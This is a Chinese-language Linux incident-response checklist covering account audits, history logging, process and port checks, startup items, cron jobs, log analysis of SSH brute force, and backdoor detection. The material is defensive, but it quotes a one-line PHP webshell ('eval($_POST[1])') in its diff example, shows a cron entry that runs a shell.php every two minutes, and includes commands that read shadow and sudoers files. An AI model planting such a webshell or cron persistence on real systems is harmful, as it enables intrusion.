[](https://xzfile.aliyuncs.com/media/upload/picture/20240121101235-8ae36838-b802-1.png)

```plain
docker查询特权(uid==0)用户(uid 为0)
awk -F: '$3==0{print $1}' /etc/passwd
查询可以远程登录的帐号信息
awk '/\$1|\$6/{print $1}' /etc/shadow
除root帐号外，其他帐号是否存在sudo权限
more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
禁用或删除多余及可疑的帐号
usermod -L user    禁用帐号，帐号无法登录，/etc/shadow第二栏为!开头
userdel user       删除user用户
userdel -r user    将删除user用户，并且将/home目录下的user目录一并删除
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121101242-8ee64ba8-b802-1.png)

### 查看历史命令：

进入/home用户目录下(root下为history):

```plain
cat .bash_history >> history.txt
```

为历史命令添加IP地址，时间信息：

```plain
- 保存1万条命令
sed -i 's/^HISTSIZE=1000/HISTSIZE=10000/g' /etc/profile
- 在/etc/profile的文件尾部添加如下行数配置信息：
######jiagu history xianshi#########
USER_IP=`who -u am i 2>/dev/null | awk '{print $NF}' | sed -e 's/[()]//g'`
if [ "$USER_IP" = "" ]
then
USER_IP=`hostname`
fi
export HISTTIMEFORMAT="%F %T $USER_IP `whoami` "
shopt -s histappend
export PROMPT_COMMAND="history -a"
######### jiagu history xianshi ##########
- source /etc/profile让配置生效
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121101257-9836a8c4-b802-1.png)

#### 检查异常IP端口进程

-   netstat命令查看端口IP以及PID进程

```plain
netstat -antlp|more
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121101303-9b7e020c-b802-1.png)

-   查看PID对应进程文件路径：

```plain
ls -l /proc/$PID/exe
file /proc/$PID/exe
```

-   查看异常进程

```plain
ps aux | grep pid
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121101311-a069afd2-b802-1.png)

### 查看启动项：

开机启动配置文件

```plain
/etc/rc.local
/etc/rc.d/rc[0~6].d
```

需要开机启动脚本时，将可执行脚本放在/etc/init.d目录下，然后在/etc/rc.d/rc\*.d中建立软链接

```plain
ln -s /etc/init.d/sshd /etc/rc.d/rc3.d/S100ssh
#此处sshd是具体服务的脚本文件，S100ssh是其软链接，S开头代表加载时自启动；如果是K开头的脚本文件，代表运行级别加载时需要关闭的。
```

启动项文件：

```plain
more /etc/rc.local /etc/rc.d/rc[0~6].d ls -l /etc/rc.d/rc3.d/
```

### 检查定时任务

#### 1\. 利用crontab创建计划任务

```plain
crontab -l 列出某个用户cron服务的详细内容

crontab -r 删除每个用户cront任务(谨慎：删除所有的计划任务)

crontab -e 使用编辑器编辑当前的crontab文件
```

-   默认编写的crontab文件会保存在 (/var/spool/cron/用户名 例如: /var/spool/cron/root)
-   crontab -e在打开的编辑器中，在文件末尾添加一行来定义新的定时任务。设置为每两分钟执行一次`/path/to/shell.php`：

```plain
*/2 * * * * /usr/bin/php /path/to/shell.php
```

-   `*/2`：表示每两分钟触发一次。
-   `* * * * *`：分别代表分钟、小时、月份中的日期、月份和周几，星号(\*)表示任意值。

#### 2\. 利用anacron实现异步定时任务调度

在Linux系统中，anacron是一个用于在系统非7x24小时运行时执行定时任务的守护进程。它主要设计用于那些并非全天候开机的桌面或服务器环境，确保即使系统在预定任务执行时间未开机，也能在下次启动后执行这些任务。

```plain
vi /etc/anacrontab @daily 10 example.daily /bin/bash /home/backup.sh
```

-   `@daily`：这是一个周期标识符，表示此任务应每天执行一次。
-   `10`：表示当系统启动后，等待10分钟再执行该任务。这样做的目的是给系统一些时间完成启动过程，确保依赖的服务已经启动并且环境稳定。
-   `example.daily`：是任务的描述名，可以根据需要自定义。
-   `/bin/bash /home/backup.sh`：这是实际要执行的命令，即通过bash shell执行`/home/backup.sh`脚本。

因此，如果机器在backup.sh应该运行的时间点处于关机状态，那么当机器下次开机后，anacron在开机10分钟后执行/home/backup.sh脚本，而不是等到下一天才执行。

#### 3\. 排查任务中的恶意脚本

```plain
/var/spool/cron/* 
/etc/crontab
/etc/cron.d/*
/etc/cron.daily/* 
/etc/cron.hourly/* 
/etc/cron.monthly/*
/etc/cron.weekly/
/etc/anacrontab
/var/spool/anacron/*
more /etc/cron.daily/*  查看目录下所有文件
```

### 检查服务

#### 1\. 服务自启动

修改方式：

```plain
法一:
chkconfig [--level 运行级别] [独立服务名] [on|off]
chkconfig –level  2345 httpd on  开启自启动
chkconfig httpd on （默认level是2345）
```

```plain
法二:
修改/etc/re.d/rc.local 文件  
加入 /etc/init.d/httpd start
```

```plain
法三:
使用ntsysv命令管理自启动，可以管理独立服务和xinetd服务。
```

#### 2\. 查询已安装的服务：

-   RPM包安装的服务

```plain
chkconfig  --list  查看服务自启动状态，可以看到所有的RPM包安装的服务
ps aux | grep crond 查看当前服务
系统在3与5级别下的启动项 
中文环境
chkconfig --list | grep "3:启用\|5:启用"
英文环境
chkconfig --list | grep "3:on\|5:on"
```

-   源码包安装的服务

```plain
查看服务安装位置 通常在/user/local/目录
service httpd start
搜索/etc/rc.d/init.d/ 查看是否存在
```

### 检查异常文件：

#### 1\. 查看敏感目录

/tmp目录下的文件，同时注意隐藏文件夹，以"."为名的文件夹具有隐藏属性

#### 2\. 通过时间查找可疑文件

使用find命令查找

```plain
find /opt -iname "*" -atime 1 -type f 
找出 /opt 下一天前访问过的文件
```

3、针对可疑文件可以使用stat查询创建修改时间。

```plain
stat 文件名
```

```plain
File: 文件名
Size: 字节大小
Blocks: 块数
IO Block: IO块大小
Device: 设备号
Inode: 索引节点号
Links: 链接数
Access: 最近访问时间
Modify: 最近修改时间
Change: 最近状态改变时间（对于大多数文件系统，这通常是最近一次修改时间）
Birth: 创建时间（并非所有文件系统都支持显示创建时间）
```

通过这些信息，可以判断文件的时间戳是否正常，或者与预期的行为相符，从而辅助进行安全分析和决策。特别是在取证分析或者系统安全审计时，这样的信息尤为重要。

### 日志分析：

```plain
1、定位有多少IP在爆破主机的root帐号：    
grep "Failed password for root" /var/log/secure | awk '{print $11}' | sort | uniq -c | sort -nr | more

2、定位有哪些IP在爆破：
grep "Failed password" /var/log/secure|grep -E -o "(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)"|uniq -c

3、爆破用户名字典是什么？
 grep "Failed password" /var/log/secure|perl -e 'while($_=<>){ /for(.*?) from/; print "$1\n";}'|uniq -c|sort -nr

4、登录成功的IP有哪些：     
grep "Accepted " /var/log/secure | awk '{print $11}' | sort | uniq -c | sort -nr | more

5、登录成功的日期、用户名、IP：
grep "Accepted " /var/log/secure | awk '{print $1,$2,$3,$9,$11}'
```

```plain
1、增加一个用户kali日志：
Jul 10 00:12:15 localhost useradd[2382]: new group: name=kali, GID=1001
Jul 10 00:12:15 localhost useradd[2382]: new user: name=kali, UID=1001, GID=1001, home=/home/kali
, shell=/bin/bash
Jul 10 00:12:58 localhost passwd: pam_unix(passwd:chauthtok): password changed for kali
#grep "useradd" /var/log/secure 

7、删除用户kali日志：
Jul 10 00:14:17 localhost userdel[2393]: delete user 'kali'
Jul 10 00:14:17 localhost userdel[2393]: removed group 'kali' owned by 'kali'
Jul 10 00:14:17 localhost userdel[2393]: removed shadow group 'kali' owned by 'kali'
# grep "userdel" /var/log/secure

5、su切换用户：
Jul 10 00:38:13 localhost su: pam_unix(su-l:session): session opened for user good by root(uid=0)

sudo授权执行:
sudo -l
Jul 10 00:43:09 localhost sudo:    good : TTY=pts/4 ; PWD=/home/good ; USER=root ; COMMAND=/sbin/shutdown -r now
```

## 排查隐藏后门：

### 1\. 文件MD5校验：

```plain
def md5sum(file):
    m=hashlib.md5()
    if os.path.isfile(file):
        f=open(file,'rb')
        for line in f:
            m.update(line)
        f.close
    else:
        m.update(file)
    return (m.hexdigest())
```

对比前后文件哈希，找到修改的文件

### 2\. diff命令寻找差异文件

diff经常用来比较两个文本文件，所以可以通过一行命令快速找出两个项目文件的差异。

```plain
diff -c -a -r cms1 cms2
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240121101332-accaf2d6-b802-1.png)

-   `*** 1/index.php 2024-01-21 00:57:00.115969882 +0800`：表示原始文件（旧版本）的路径和修改时间。
-   `--- html/index.php 2024-01-21 00:56:00.243088661 +0800`：表示新版本文件的路径和修改时间。
-   `***************`：分隔符，标记接下来的内容是两版文件之间的不同之处。
-   `*** 1,4 ****`：表示在原始文件中从第1行到第4行的内容。
-   `--- 1,5 ----`：表示在新版本文件中从第1行到第5行的内容。

```plain
+ eval($_POST[1]);
这一行前带有加号 "+"，意味着这是在新版本html/index.php文件中新添加的一行代码
```

参考文章：  
[https://www.cnblogs.com/xiaozi/p/12687455.html](https://www.cnblogs.com/xiaozi/p/12687455.html)  
[https://forum.butian.net/share/2170](https://forum.butian.net/share/2170)  
[https://forum.butian.net/share/2148](https://forum.butian.net/share/2148)  
[https://www.cnblogs.com/-qing-/p/10513033.html](https://www.cnblogs.com/-qing-/p/10513033.html)  
[https://bypass007.github.io/Emergency-Response-Notes/](https://bypass007.github.io/Emergency-Response-Notes/)
